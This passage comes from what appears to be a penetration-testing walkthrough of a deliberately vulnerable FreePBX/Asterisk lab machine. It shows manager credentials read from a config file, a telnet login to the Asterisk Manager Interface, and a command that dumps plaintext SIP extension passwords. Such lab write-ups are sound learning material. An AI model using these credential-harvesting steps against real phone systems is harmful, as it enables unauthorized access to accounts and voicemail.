 ``` plain
# AMPMGRUSER: the user to access the Asterisk manager interface
AMPMGRUSER=admin

# AMPMGRPASS: the password for AMPMGRUSER
AMPMGRPASS=amp111
..............................................
# AUTHTYPE: authentication type to use for web admin
# If type set to 'database', the primary AMP admin credentials will be the AMPDBUSER/AMPDBPASS above
# valid: none, database
AUTHTYPE=database

```

We have the username and password for the admin interface now.

{% img center /images/pentest/vulnvoip/webadmin.png 'freepbx webadmin' 'webadmin interface' %}

If we go to Panel, we can see that 2000 is the extension for the Support account. But I still couldn't find a way to actually listen to the voicemail message, and I don't have the password. But, I also have the credentials for the Asterisk Login Manager, so let's see if that helps. To login and authenticate to the manager, you must send a "login" action, with your user name and secret (password) as parameters. We can use telnet for this (don't forget to hit Enter twice after inputting the parameters):

``` plain
telnet 192.168.80.131 5038
Trying 192.168.80.131...
Connected to 192.168.80.131.
Escape character is '^]'.
Asterisk Call Manager/1.1
action: login
username: admin
secret: amp111

Response: Success
Message: Authentication accepted
```

For a comprehensive list of Asterisk commands, check out this [Asterisk CLI resource](http://www.voip-info.org/wiki/view/Asterisk+CLI) and [Manager Actions](http://www.voip-info.org/wiki/view/Asterisk+manager+API). To list the SIP users, we have to use a "command" action this time. And then specify the command, which is <code>sip show users</code>:

``` plain
action: command
command: sip show users

Response: Follows
Privilege: Command
Username                   Secret           Accountcode      Def.Context      ACL  NAT       
100                                                          from-internal    Yes  Always    
101                        s3cur3                            from-internal    Yes  Always    
102                        letmein123                        from-internal    Yes  Always    
201                        secret123                         from-internal    Yes  Always    
200                        quit3s3curE123                    from-internal    Yes  Always    
2000                       password123                       from-internal    Yes  Always    
--END COMMAND--
```
